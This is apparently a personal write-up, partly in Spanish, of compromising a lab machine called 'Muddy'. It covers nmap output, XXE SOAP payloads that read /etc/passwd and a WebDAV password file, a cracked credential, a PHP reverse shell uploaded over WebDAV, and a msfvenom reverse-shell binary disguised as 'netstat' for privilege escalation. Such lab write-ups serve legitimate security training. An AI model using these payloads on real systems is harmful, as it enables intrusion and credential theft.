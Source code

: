 #Pwned! 
```IP
192.168.177.161
```
## Nmap
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
25/tcp   open  smtp    syn-ack ttl 61 Exim smtpd 4.92
| smtp-commands: muddy Hello muddy.ugc [192.168.45.192], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
|_http-title: Muddy | Found some mud? Call us! &#8211; A muddy WordPress!
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 5.7
111/tcp  open  rpcbind syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
908/tcp  open  unknown syn-ack ttl 61
8888/tcp open  http    syn-ack ttl 61 WSGIServer 0.1 (Python 2.7.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-title: Ladon Service Catalog
Service Info: Host: muddy; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Nmap UDP


# Enumeration
## SMTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021102002.png?raw=true)

## HTTP 80
Wordpress 5.7
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021101424.png?raw=true)
no parece que pueda entrar con credenciales por defecto a webdav
no encuentro el wp-admin
con davtest y nuestras nuevas credenciales conseguidas en el 8888 vemos que podemos ejecutar y subir ficheros php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113305.png?raw=true)
Y ahora con cadaver subimos una revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113138.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021113419.png?raw=true)
## HTTP 8888
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021094337.png?raw=true)
powered by ladon for python
```txt
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021095142.png?raw=true)
user ian seems to have sh

```
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///var/www/html/webdav/passwd.dav">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:HelloService\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021112019.png?raw=true)
```
administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0
```
```
administrant:sleepless
```
Vamos al webdav del puerto 80 con nuestras nuevas credenciales
# PrivEsc

## Manual

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241021120626.png?raw=true)
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -a x64 -f elf -o netstat
```

## Automated

### Peass

```
-rw-r--r-- 1 root root 3296 Mar 20  2021 /var/www/html/wp-config.php                    
define( 'DB_NAME', 'wp' );                                                              
define( 'DB_USER', 'wpadmin' );                                                         
define( 'DB_PASSWORD', 'ec99e2a005aa8cf0550ddfbdcde11141' );                            
define( 'DB_HOST', 'localhost' ); 
```

crontab -l
```
@reboot /usr/local/bin/ladon-2.7-ctl testserve /var/tmp/ladon/muddy.py -p 8000
```

### Mimikatz


